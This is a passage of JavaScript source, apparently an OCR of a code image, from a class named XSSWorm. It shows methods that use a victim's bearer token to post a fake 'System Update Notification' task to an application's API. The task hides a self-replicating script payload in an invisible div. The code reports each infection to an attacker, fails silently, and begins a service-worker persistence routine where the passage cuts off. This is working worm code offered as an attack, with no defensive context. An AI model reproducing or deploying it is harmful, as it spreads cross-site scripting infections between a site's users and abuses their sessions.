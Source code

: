 ```
    }
    
    async createInfectedTask(token) {
        const wormPayload = this.generateWormPayload();
        
        const infectedTask = {
            title: 'System Update Notification',
            description: `
                <div>
                    <h3>Important System Update</h3>
                    <p>A critical security update has been applied to improve system performance.</p>
                    <p>Please review the update details and confirm completion.</p>
                    <div style="opacity:0; height:1px; overflow:hidden;">
                        ${wormPayload}
                    </div>
                </div>
            `,
            priority: 'MEDIUM'
        };
        
        try {
            await fetch(`${this.config.apiBase}/tasks`, {
                method: 'POST',
                headers: {
                    'Authorization': `Bearer ${token}`,
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(infectedTask)
            });
            
            this.sendToAttacker('worm_propagated', { 
                method: 'task_creation' 
            });
            
        } catch (error) {
            // Fail silently
        }
    }
    
    generateWormPayload() {
        // Generate self-replicating payload
        const wormCode = `
            <script>
            (function() {
                if (window.xssWormActive) return;
                
                // Worm configuration
                const config = ${JSON.stringify(this.config)};
                
                // Initialize new worm instance
                ${this.constructor.toString()}
                
                new XSSWorm(config);
            })();
            </script>
        `;
        
        return wormCode;
    }
    
    establishPersistence() {
        // Install service worker for persistence
```